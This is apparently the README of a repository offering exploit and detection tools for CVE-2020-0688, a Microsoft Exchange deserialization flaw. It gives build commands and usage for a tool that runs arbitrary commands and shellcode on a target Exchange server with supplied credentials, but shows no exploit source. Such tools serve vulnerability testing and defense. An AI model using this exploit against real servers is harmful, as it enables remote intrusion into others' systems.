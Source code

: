 ## Exploit and detect tools for CVE-2020-0688(Microsoft Exchange default MachineKeySection deserialize vulnerability)

### build

	csc ExchangeCmd.cs
	csc ExchangeDetect.cs

### usage
	ExchangeDetect <target> <user> <pass>

 ![](detect.png)
 
	ExchangeCmd <target> <user> <pass>
	sub commands:
		exec <cmd> [args]
		  exec command
			
		arch
		  get remote process architecture(for shellcode)
			
		shellcode <shellcode.bin>
		  run shellcode
			
		exit
		  exit program
![](exp.png)

for more information, read [writeup.pdf](writeup.pdf)(in chinese).
